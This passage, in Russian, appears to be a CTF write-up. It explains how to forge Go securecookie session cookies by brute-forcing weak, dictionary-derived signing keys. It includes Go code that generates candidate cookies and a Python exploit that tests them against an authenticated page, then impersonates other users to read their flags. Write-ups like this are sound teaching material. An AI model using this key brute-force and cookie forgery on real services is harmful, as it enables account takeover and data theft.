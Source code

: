 Дабы не вникать в особенности и тонкости работы используемой в сервисе библиотеки securecookie можно использовать её же для генерации фальшивых cookie, взяв любое валидное имя пользователя:
```
	KeyDict = [10]string{"nerisande", "neriael", "neriyuko", "nerielys", "nerysgosa", "nerieth", "neriett", "neridana", "neriss", "neri"}
	for i := range KeyDict {
		KeyDict[i] = padWithZeros(KeyDict[i], 32)
	}
	for i := 0; i < len(KeyDict); i++ {
		for j := 0; j < len(KeyDict); j++ {
			keyPair := KeyPair{
				key1: KeyDict[i],
				key2: KeyDict[j],
			}
			AllKeys = append(AllKeys, keyPair)
		}
	}
	for _, pair := range AllKeys {
		SC = securecookie.New([]byte(pair.key1), []byte(pair.key2))
		c, e := SC.Encode("User", username)
		if e != nil {
			fmt.Println(e)
			return
		}
		fmt.Println(c, pair)
	}
```
Данный код выводит зашифрованую куку и пару ключей, которая использовалась для её шифрования.
Вывод можно скормить другой части эксплойта на python:
```
	def brute_keys():
	    global is_builded
	    if not is_builded:
		subprocess.run(["go", "build", "-o", output_file, "main.go"], check=True)
	    command = "generate_keys"
	    username = hacker_creds["username"]
	    result = subprocess.run([output_file, command, username], capture_output=True, text=True)
	    output_lines = result.stdout.splitlines()
	    cookie_arr = []
	    for i in output_lines:
		cookie_arr.append(i.split())
	    req = requests.post(url+"/register", hacker_creds)
	    s = requests.Session()
	    for i in cookie_arr:
		req = s.get(url+"/sus_uploader", cookies={'User':i[0]})
		if req.status_code == 200:
		    key1 = i[1][1:]
		    key2 = i[2][:-1]
		    break
	    return key1, key2
```
Как только сервис сможет впустить на одну из страниц, требующих авторизации - значит брутфорс ключей прошел успешно. Дальше остаётся только получить список пользователей, затем можно просматривать флаги от их лица используя cookie, сгенерированные нами же с помощью уже известной пары ключей.
